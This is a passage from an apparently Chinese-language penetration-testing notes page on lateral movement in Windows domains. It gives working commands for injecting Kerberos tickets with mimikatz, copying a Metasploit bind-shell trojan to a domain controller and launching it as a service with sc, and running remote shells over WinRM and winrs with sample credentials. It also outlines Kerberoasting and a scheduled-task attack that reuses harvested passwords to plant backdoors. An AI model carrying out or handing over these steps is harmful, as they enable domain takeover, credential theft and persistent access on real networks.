 ```
mimikatz # kerberos::list           //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```
  4. 使用net use进行登录或者使用psexec，wmi等方法进行远程执行命令
```
net use \\WIN-ENS2VR5TR3N           //登录域控
```
  5. 上传一个正向的msf马，并将该木马copy到域控上去执行
```
copy c:\windows\system32\shell.exe \\WIN-ENS2VR5TR3N\c$
```
  6. 通过sc远程对域控创建服务来启动木马
```
sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\shell.exe"
sc \\WIN-ENS2VR5TR3N start bindshell
```

#### kerberoast攻击
  攻击者从 TGS-REP 中提取加密的服务票证。
  由于服务票证是用链接到请求 SPN 的帐户的哈希加密的，所以攻击者可以离线破解这个加密块，恢复帐户的明文密码。

#### WinRM横向
  **Windows远程管理提供了两个工具：**
① Winrs，允许远程执行命令的命令行工具，利用了WS-Manage协议
② Winrm（Winrm.cmd)，内置系统管理命令行工具，允许管理员配置本机的WinRM服务。
  WinRM是通过执行WS-Management协议（用于远程软件和硬件管理的Web服务协议）来实现远程管理的，允许处于一个共同网络内的Windows计算机彼此之间互相访问和交换信息，对应的端口是5985。
  在一台计算机启用WinRM服务后，防火墙会自动放行其相关通信端口，在另一台计算机便能通过WinRM对其进行远程管理了。
  在利用WinRM进行横向移动时，需要拥有远程主机的管理员凭据信息。
  在默认情况下，无法通过WinRM连接到目标系统。可能出现错误：Winrs error：WinRM客户端无法处理该请求。
**可以将默认身份验证与IP地址结合使用：**
  ① 传输为HTTPS或目标位于TrustedHosts列表中，并且提供显式凭据
  ② 使用Winrm.cmd配置TrustedHosts
  ③ 将目标地址添加到TrustedHosts中
```
winrm set winrm/config/client @{TrustedHosts="192.168.1.1"} 
set-Item WSMan:localhost\client\trustedhosts -value *    
# 通过powershell，信任所有主机
```
  ④ 使用Winrs或者WinRM执行命令
```
【Winrs】
# 执行系统命令 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123456@ "whoami" 
# 获取远程交互式命令行 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123456@ "cmd"
【WinRM】
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck @{commandline="notepad.exe"} -r:http://192.168.1.131:5985 -u:Administrator -p:123456@
```

#### AT & schtasks 计划任务横向
  **利用思路：**
获取到某域主机权限
->minikatz 得到密码（明文，hash）
->用到信息收集里面域用户的列表当做用户名字典
->用到密码明文当做密码字典
->尝试连接
->创建计划任务(at|schtasks)
->执行文件可为后门或者相关命令
